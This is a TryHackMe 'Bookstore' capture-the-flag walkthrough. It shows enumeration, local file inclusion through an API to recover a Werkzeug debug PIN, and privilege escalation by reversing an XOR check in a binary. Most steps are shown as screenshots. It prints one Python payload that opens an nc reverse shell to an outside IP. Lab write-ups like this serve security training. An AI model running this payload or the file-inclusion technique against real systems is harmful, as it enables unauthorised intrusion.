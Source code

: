 # Bookstore TryHackMe Writeup
## Level: Medium

![logo](logo.jpeg)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](1.png)

## Enumeration
We list two web services on port 80 of this website:

![](2.png)

In the source code of the file *"login.html"* we list relevant information about a PIN that is stored in a file *.bash_history*

![](8.png)

And at port 5000:

![](3.png)

In the nmap capture, it listed the directory *"/api/"*, there we will be able to list several of the site's functionalities.

![](4.png)

We test the API and see that it works correctly from Burp.

![](5.png)

We use the **Nikto** tool and enumerate the directory *"/console/"*.

![](6.png)

We access to the directory and we see that it asks for a PIN to be able to unlock this functionality.

![](7.png)


## Exploitation
Searching on Google about the type of server and its PIN, I found this [documentation](https://book.hacktricks.xyz/pentesting/pentesting-web/werkzeug)

To get the PIN, we would need to know a couple of parameters, but to get them we must be able to read some system files. 

Here the API will come into play, so we will do a brute force attack to enumerate some parameter that will help us to do LFI (Local File Inclusion).

We launched the **Wfuzz** tool with an average dictionary, in version 2 of the API we did not list anything new, but in version 1 we did.

#### API V2

![](9.png)

#### API V1

![](10.png)

If we access from the browser, we see that we can embed files (LFI).

![](11.png)

#### Flag user.txt

We exploit the vulnerability to be able to read the flag *user.txt*

![](12.png)


Recall that they mentioned that the PIN was being stored in the *.bash_history* file. Thanks to the */etc/passwd* file, we know the user names that contain home folder and we can enumerate the file and the access PIN.

![](13.png)

We use the PIN and now we have access to the interactive console.

![](14.png)

We use the following payload and we will have a reverse shell to the victim machine.

### Code Execute

``` python

__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f').read();

```

![](15.png)

### Reverse shell

![](16.png)


## Privilege Escalation

We checked the directory of the user *"sid"*, we found a binary that could be the way to escalate privileges, since it runs as the **root** user.

![](17.png)


We transfer the binary to our kali, check with the **Ghidra** tool and see the conditional where it calls the 3 parameters calculating the xor value. 


![](20.png)


But even if we are missing a parameter, we can obtain it by reversing the xor with the values we have.

![](21.png)

With the magic number in our hands, we insert it and we become root and read the flag of *root.txt*.


---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='50' align='center'> [@David_Uton](https://twitter.com/David_Uton)
